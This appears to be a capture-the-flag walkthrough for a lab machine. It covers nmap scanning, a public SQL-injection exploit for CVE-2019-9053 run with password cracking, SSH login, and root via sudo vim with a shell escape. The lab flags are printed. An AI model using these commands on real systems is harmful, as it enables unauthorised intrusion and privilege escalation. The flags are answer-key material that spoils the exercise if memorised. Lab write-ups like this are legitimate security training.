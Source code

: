### How many services are running under port 1000?
```BASH
nmap -sV -p1-1000 10.10.149.245
```
`-sV` - determine service/version info  

`-p1-1000` - strictly ports 1 to 1000  

![image](https://github.com/user-attachments/assets/a564f521-f758-4386-8b7e-fdf302a5033d)
<pre>2</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is running on the higher port?
```BASH
nmap -sV -p- 10.10.149.245
```
![image](https://github.com/user-attachments/assets/83e955f4-0545-4867-b272-1641190e728c)

`-p-` - scan all ports
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the CVE you're using against the application?
<pre>CVE-2019-9053</pre>

<span style="line-height:0.5;">&nbsp;</span>

### To what kind of vulnerability is the application vulnerable?
<pre>SQLi</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the password?
Download the Python exploit from [exploit-db](https://www.exploit-db.com/exploits/46635) and save it as exploit.py. Run the exploit with cracking enabled.
```BASH
python2 exploit.py -u http://10.10.149.245/simple --crack -w /usr/share/wordlists/rockyou.txt
```
The script will extract and crack the admin credentials:  

![image](https://github.com/user-attachments/assets/1887f377-bd6a-4fc2-ad81-c1ceea2b7463)

<span style="line-height:0.5;">&nbsp;</span>

### Where can you login with the details obtained?
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the user flag?
```BASH
ssh mitch@10.10.149.245 -p 2222
```
![image](https://github.com/user-attachments/assets/79ea498b-ab33-4b45-83f8-da8ef18a8dcf)
<pre>G00d j0b, keep up!</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Is there any other user in the home directory? What's its name?
```BASH
cd ..
ls
```
<pre>sunbath</pre>
<span style="line-height:0.5;">&nbsp;</span>

### What can you leverage to spawn a privileged shell?
Run the following to check sudo permissions.
```BASH
sudo -l
```
![image](https://github.com/user-attachments/assets/d0586f88-c5ac-4e2d-ab21-b0fc2ad6dfaa)  

This means user mitch can execute vim as root without a password.
<pre>vim</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the root flag?
To escalate privileges using vim go to [GTFOBins](https://gtfobins.github.io/) and search vim. Go to 'Sudo' section and if you can run vim as root via sudo, spawn a root shell by running:
```BASH
sudo vim -c ':!/bin/sh'
```
This command opens vim and immediately executes /bin/sh from within it, giving you a root shell. Exit Vim to open root shell.  

![image](https://github.com/user-attachments/assets/ac6c31d0-bea6-4468-8ec8-5fc75421bde2)

CTF flag
<pre>W3ll d0n3. You made it!</pre>

